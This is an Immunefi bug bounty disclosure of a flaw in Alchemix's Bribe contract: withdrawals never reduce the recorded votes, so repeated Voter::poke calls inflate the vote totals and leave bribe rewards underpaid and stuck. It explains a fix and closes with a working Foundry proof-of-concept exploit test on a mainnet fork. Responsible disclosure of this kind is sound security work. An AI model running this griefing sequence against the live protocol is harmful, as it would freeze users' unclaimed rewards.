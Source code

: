 
# Users can grief Bribe rewards, forcing them to be stuck forever by continuously calling `Voter::poke`

Submitted on Sat May 18 2024 09:43:37 GMT-0400 (Atlantic Standard Time) by @tryingToHack for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31409

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Permanent freezing of unclaimed yield
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
When users vote in the `Voter` contract, it calls `Bribe::deposit` to "save" this vote, so that later when rewards come in for that Bribe can be distributed to users who voted. The opposite happens when users reset/withdraw their votes. However, there's 1 anomaly between the Bribe's deposit and withdrawal, where on deposit, Bribe is "checkpointing" the votes using:
```
totalVoting += amount;
_writeVotingCheckpoint()
```
And the opposite is not happening on the withdrawal, this allows users to mess up all the Bribe's rewards.

## Vulnerability Details
When users vote in the `Voter` contract, it calls `Bribe::deposit` which increases the total votes of that Bribe, however, on withdrawal these votes aren't being subtracted. On the other hand, the `Voter` contract allows users to continuously call the `poke` function that resets and then vote again in the same gauges/bribes, without any condition on that function. This allows voters to continuously call the `poke` function to skyrocket the total votes checkpoints in the Bribe, remember when `poke` resets/withdraws the votes they are not being removed.

These total votes' checkpoints are being used in `Bribe::earned`, to calculate the earned amount to each voter, it is being divided by, https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol#L261, which wrongly decrease the rewards for each user.

## Impact Details
* Griefing of users, as their rewards will be a lot less than what they "deserve", if there were even some rewards left.
* The remaining unclaimed rewards will remain stuck forever in the contract.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol#L319-L329

## Mitigation
Add the following in `Bribe::withdraw`:
```
totalVoting -= amount;
_writeVotingCheckpoint();
```
 
        
## Proof of concept
Fork block number used: `19877251`

```
function testGriefBribeRewards() public {
    // Bribe config
    uint256 usdcRewardAmount = 100e6;
    hevm.prank(voter.admin());
    voter.whitelist(usdc);
    address bribeAddress = voter.bribes(voter.gauges(alUsdPoolAddress));
    deal(address(usdc), address(this), usdcRewardAmount);
    IERC20(usdc).approve(bribeAddress, usdcRewardAmount);

    // Admin and Beef create locks
    uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
    uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, false);

    address[] memory pools = new address[](1);
    pools[0] = alUsdPoolAddress;
    uint256[] memory weights = new uint256[](1);
    weights[0] = 5000;

    // Admin and Beef vote
    hevm.prank(admin);
    voter.vote(tokenId1, pools, weights, 0);
    hevm.prank(beef);
    voter.vote(tokenId2, pools, weights, 0);

    // Confirm voting success
    assertGt(IBribe(bribeAddress).totalVoting(), 0);

    // Increase time to reach just before epoch end
    hevm.warp(IBribe(bribeAddress).getEpochStart(block.timestamp) + 2 weeks - 1 hours);

    // Beef continously calls poke, messing up votes checkpoints in the Bribe contract
    hevm.startPrank(beef);
    voter.poke(tokenId2);
    hevm.warp(block.timestamp + 1);
    voter.poke(tokenId2);
    hevm.warp(block.timestamp + 1);
    voter.poke(tokenId2);
    hevm.warp(block.timestamp + 1);
    voter.poke(tokenId2);
    hevm.warp(block.timestamp + 1);
    voter.poke(tokenId2);
    hevm.stopPrank();

    // Rewards come in to the Bribe contract
    IBribe(bribeAddress).notifyRewardAmount(usdc, usdcRewardAmount);

    // Epoch ends
    hevm.warp(block.timestamp + 1 hours);

    // Voting still exists
    assertGt(IBribe(bribeAddress).totalVoting(), 0);
    // Rewards for each token is around 14 USDC where it should be 50 USDC (100 USDC / 2 tokens)
    assertEq(IBribe(bribeAddress).earned(usdc, tokenId1) / 1e6, 14);
    assertEq(IBribe(bribeAddress).earned(usdc, tokenId2) / 1e6, 14);
}
```